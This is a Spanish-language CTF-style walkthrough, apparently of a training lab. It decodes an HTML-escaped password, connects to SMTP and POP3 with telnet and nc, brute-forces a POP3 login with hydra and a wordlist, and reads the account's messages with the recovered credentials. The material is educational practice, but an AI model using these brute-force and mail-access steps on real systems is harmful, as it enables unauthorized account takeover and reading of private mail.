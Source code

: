 Usuarios y Contraseñas Posibles

Usuario: *Boris*
Contraseña: &#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;

Usuario: *Natalya*



- Usamos la pagina de cypher identifier para ver en que lenguaje esta codificada la contraseña y encontramos que esta en *Html Escape*, la deciframos y podemos ver que las credenciales del usuario son

*Boris* : InvincibleHack3r


- Probamos entrando al protocolo smtp de la siguiente manera:

```bash
telnet 10.201.71.25 25   # Conexion al protocolo smtp eligiendo el puerto 25
nc 10.201.71.25 25       # Alternativa de Conexion al protocolo smtp eligiendo el puerto 25
```

- Probamos conectándonos a pop3 por el puerto *55007* 

```bash
telnet 10.201.71.25 55007  # Conexion a pop3 
nc 10.201.71.25 55007       # Alternativa de Conexion a pop3
```

- Algunos comandos basicos de pop3 son los siguientes:

```bash
USER usuario              # Enviar tu nombre de usuario
PASS contraseña           # Enviar tu contraseña
STAT                      # Ver cantidad y tamaño total de mensajes
LIST                      # Listar mensajes con número y tamaño
RETR 1                    # Descargar el mensaje número 1
DELE 1                    # Eliminar el mensaje número 1
NOOP                      # No hace nada (mantiene conexión)
RSET                      # Cancela eliminaciones marcadas
QUIT                      # Cierra sesión y aplica cambios

```


- Al ver que entrando con el usuario *boris* no nos permite usar la contraseña que teniamos entonces usamos fuerza bruta para encontrar una nueva contraseña

```bash
hydra -l boris -P /usr/share/wordlists/fasttrack.txt pop3://10.201.71.25 -t 16 -s 55007   # Comando para hacer fuerza bruta con el usuario boris por el servicio de pop3
```

- Creds:
*boris* : secret1!


```bash
nc <Ip> 55007  # Nos conectamos al servicio
USER boris     # Usuario
PASS secret1!  # Contraseña
LIST           # Listamos los mensajes que ha recivido
RETR 1         # Descargamos el mensaje 1 
RETR 2         # Descargamos el mensaje 2 
RETR 3         # Descargamos el mensaje 3
```
